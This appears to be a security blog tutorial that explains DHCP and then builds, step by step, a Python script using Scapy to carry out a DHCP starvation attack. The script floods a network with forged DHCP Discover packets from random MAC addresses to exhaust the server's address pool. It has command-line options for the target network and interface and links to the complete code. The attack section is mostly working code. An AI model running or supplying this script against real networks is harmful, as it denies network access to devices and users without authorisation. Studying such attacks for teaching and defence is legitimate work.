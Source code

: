 ```yaml
---
title: Doing a DHCP starvation attack
pubDate: "March 09 2024"
description: Understanding and performing a DHCP starvation attack over DHCP servers and networks.
tags: ["security", "networks", "hacking"]
heroImage: "/blog/2024-03-09-dhcp-starvation-attack/logo.png"
---
```


To understand what a DHCP starvation attack is, it is important to understand what a DHCP server is and how this protocol works. A DHCP server is a network component in charge of assigning IPs to different devices, associating the physical or MAC address to an IP. This process allows communication between the different devices, using the assigned IPs to identify each other and communicate.

A "DHCP starvation" attack is a type of malicious attack targeting networks that use the DHCP protocol for IP address allocation. The goal of this attack is to exhaust all the IP addresses available to the DHCP server in order to make it impossible for new devices to connect to the server, even causing a denial of service attack.

Next we are going to see how to do a small proof of concept of this attack, developing a Python script. The first thing to do is to install the necessary dependencies, in this case, the network packet manipulation library "Scapy".

```sh
pip install scapy
```

Let's start with the python code. Before starting to build packets, it is necessary to configure Scapy to ignore IP address verification responses, since we will be sending packets with forged IP addresses.

```python
conf.checkIPaddr = False
```

Once the basic configuration of Scapy is done, we move on to define our main function "starve". This function will receive a dictionary of parameters. It is not the best way to do this step, but for a quick script it is enough. The main parameters we will use will be: Delay time between each packet sent, network to attack and network interface through which we want to perform the attack.

```python
def starve(params):
    delay = params['delay'] if params.get('delay') is not None else 0.5
    network = params['network'] if params.get('network') is not None else '192.168.1.0/24'
    interface = params['interface'] if params.get('interface') is not None else 'eth0'
    is_verbose = params['verbose'] if params.get('verbose') is not None else 1
```

In the main loop of the starve function, we generate DHCP Discover packets with random MAC addresses, requesting specific IP addresses within the target network.

```python
for ip_dir in ips_for_feeding:
    src_mac = RandMAC()

    ether = Ether(src=src_mac, dst='ff:ff:ff:ff:ff:ff')
    ip = IP(src='0.0.0.0', dst='255.255.255.255')
    udp = UDP(sport=68, dport=67)
    bootp = BOOTP(op=1, chaddr=src_mac)
    dhcp = DHCP(options=[
        ('message-type', 'discover'), 
        ('requested_addr', str(ip_dir)),
        ('end')])

    packet = ether / ip / udp / bootp / dhcp

    sendp(packet, iface=interface, verbose=is_verbose)

    sleep(delay)
```

Finally and outside the function, we will add the command line arguments so that the user can specify all the above parameters. This will be done using the "argparse" library already included in python.

```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument(
        '--network', 
        type=str,
        nargs='?',
        help='IP address of the network (e.g. 192.168.1.0/24)',
    )
    parser.add_argument(
        '--delay', 
        type=str,
        nargs='?',
        help='Delay in seconds for each packet',
    )
    parser.add_argument(
        '--interface', 
        type=str,
        nargs='?',
        help='Interface to attack (eth0 as default)',
    )
    parser.add_argument(
        '--verbose', 
        type=int,
        nargs='?',
        help='Verbose mode 1=ON 0=OFF (1 as default)',
    )
    params = vars(parser.parse_args())
    starve(params)
```

The complete script code: [dhcp_starvation_attack.py](https://gist.github.com/jparadadev/ade6fa41d8e86f35c04bac09af86aa09)


